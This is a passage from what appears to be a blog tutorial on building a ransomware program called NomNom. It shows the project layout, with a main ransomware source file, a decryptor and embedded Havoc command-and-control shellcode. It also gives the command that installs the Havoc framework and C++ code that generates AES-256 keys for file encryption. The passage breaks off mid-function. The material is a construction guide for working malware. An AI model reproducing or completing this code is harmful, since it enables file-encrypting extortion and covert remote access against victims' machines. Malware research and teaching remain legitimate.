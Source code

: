 ```text
\Desktop\NomNom\
|── build/                        // Build Files
├── src/
│   ├── NomNom.cpp                // Main Ransomware logic
│   ├── NomNom_decryptor.cpp      // Decryptor
│   ├── demon.h                   // Havoc shellcode
├── CMakeLists.txt
├── .gitignore
├── README.md
```

Tip: Use a VM for testing. I hit a Windows BSOD whiles testing on my machine

### Installing Havoc

Installing Havoc was quite simple. I initially tried to install it on my Ubuntu WSL but I ran into some problems and later pivoted to my Kali Linux VM.

```bash
sudo apt update && sudo apt install havoc -y
```

Once installed, I configured and launched the Teamserver and used the Builder to generate shellcode for the Demon. Refer to the Havoc Documentation on how to do this.

## Implementing Encryption

Before I could encrypt files, I first needed a secure way to generate keys (i.e Secret Key and IV) so I wrote this function to do just that.

### Generation of Secure Keys

```cpp
int `generateKeys`(const fs::path& keyFile) {
    // check if keys file already exists
    if (fs::exists(keyFile)) {
        cout << "[*] File already exists: " << keyFile << " using values from it." << endl;
        return EXIT_SUCCESS;
    }

    fs::path parentDir = keyFile.parent_path();
    if (!parentDir.empty() && !fs::exists(parentDir)) {
        try {
            fs::create_directories(parentDir);
            std::cout << "[+] Created directory: " << parentDir << std::endl;
        } catch (const fs::filesystem_error& e) {
            std::cerr << "[-] Failed to create directory " << parentDir << ": " << e.what() << std::endl;
            return EXIT_FAILURE;
        }
    }

    AutoSeededRandomPool rng;

    // Generate AES-256 key (32 bytes) and IV (16 bytes)
    SecByteBlock key(AES::MAX_KEYLENGTH);
    SecByteBlock iv(AES::BLOCKSIZE);

    rng.GenerateBlock(key, key.size());
    rng.GenerateBlock(iv, iv.size());

    // Convert to Hex
    string encodedKey, encodedIV;
    HexEncoder encoder;

```